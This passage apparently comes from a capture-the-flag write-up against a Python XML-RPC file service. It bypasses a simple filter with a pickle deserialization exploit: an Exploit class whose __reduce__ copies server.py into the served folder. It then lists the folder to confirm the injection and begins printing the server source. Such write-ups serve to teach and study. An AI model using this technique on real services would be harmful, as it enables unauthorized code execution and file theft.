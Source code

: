 ```
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Hacking attempt detected! Your IP address has been traced, an FBI team will soon arrive to your location. Please stay where you are and wait for your arrest.">
```

Oops, it caught us! But since the security of this service seems based on simple filters, let's try to bypass it. After all, we don't need a shell, we can run any Python code we want.

```
>>> class Exploit(object):
...   def __reduce__(self):
...     import shutil
...     return (shutil.copyfile, ('./server.py', './fileserver/server.py'))
... 
>>> s.setstate(dumps(Exploit()).encode('base64'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Invalid state data">
```

There! Out exploit is no longer detected. The error message is fine, we're sending it crap, but let's check if the code injection worked.

```
>>> s = ServerProxy("http://target:12345/fileserver", transport=t, allow_none=True)
>>> s.listdir()
['flag.txt', 'server.py']
```

It worked! Now we can read the file with the read() method.

```
#!/usr/bin/env python

from cPickle import loads, dumps
from hashlib import sha1
from os import listdir, unlink
from os.path import abspath, dirname, join
from random import WichmannHill
from SimpleXMLRPCServer import MultiPathXMLRPCServer, SimpleXMLRPCRequestHandler, SimpleXMLRPCDispatcher

class RandomServer(object):

    def __init__(self):
        self.rnd = WichmannHill()

    def seed(self, num):
        """Set the seed for the random number generator."""
        self.rnd.seed(num)

    def random(self):
        """Get a random number."""
        try:
            return self.rnd.random()
```
